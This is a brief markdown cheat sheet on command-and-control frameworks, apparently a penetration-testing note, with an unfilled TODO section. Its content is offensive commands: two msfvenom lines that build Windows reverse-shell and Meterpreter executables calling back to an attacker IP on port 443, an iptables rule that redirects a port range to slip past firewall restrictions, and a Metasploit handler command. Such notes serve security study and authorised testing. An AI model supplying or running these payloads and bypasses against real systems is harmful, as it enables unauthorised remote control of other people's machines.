# C2 Frameworks

## 01 - Metasploit

### 1.1 - MSFVenom

```
$ msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe

$ msfvenom -p windows/shell/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe

$ sudo iptables -A PREROUTING -t nat -p tcp --dport 443:5556 -j REDIRECT --to-port 443
```

### 1.2 - Shell Handler

TODO: Fill this info

```
msf > use exploit/multi/handler
```

---
## References

- [Bypass Firewall Restrictions Metasploit reverse_tcp_allports](https://www.hackingarticles.in/bypass-firewall-restrictions-metasploit-reverse_tcp_allports/)